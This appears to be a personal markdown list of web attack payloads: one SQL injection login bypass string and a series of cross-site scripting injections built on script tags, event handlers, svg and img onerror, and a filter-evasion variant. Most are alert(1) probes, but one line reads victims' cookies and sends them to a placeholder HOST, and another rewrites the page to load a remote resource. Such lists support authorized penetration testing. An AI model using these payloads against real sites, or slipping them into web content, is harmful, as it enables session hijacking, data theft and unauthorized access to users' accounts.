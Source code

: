 ## This will be a collection of XSS JavaScript Payloads I have used

SQL payload
' OR 1='1




XSS Payloads
</script><script>alert(1)</script>
"><h1>test</h1>
'+alert(1)+'
"onmouserover="alert(1)
http://"onmouseover="alert(1)
<body onload=alert(1)>

<img src=x onerror=alert(1) />
<img src=x onerror='alert(1)' />


<x onmouseover=alert(1)>
<object data=javascript:alert(1)>


<a onmouseover='alert(1)'>


<svg onload=alert(1)>

<svg onload=fetch('//HOST/?cookie='+document.cookie)>

<svg onload="document.body.innerHTML='<img src=//HOST/IMAGE>'">

<script>alert(document.domain)</script>
<sc<script>ript>alert(1)</sc</script>ript>


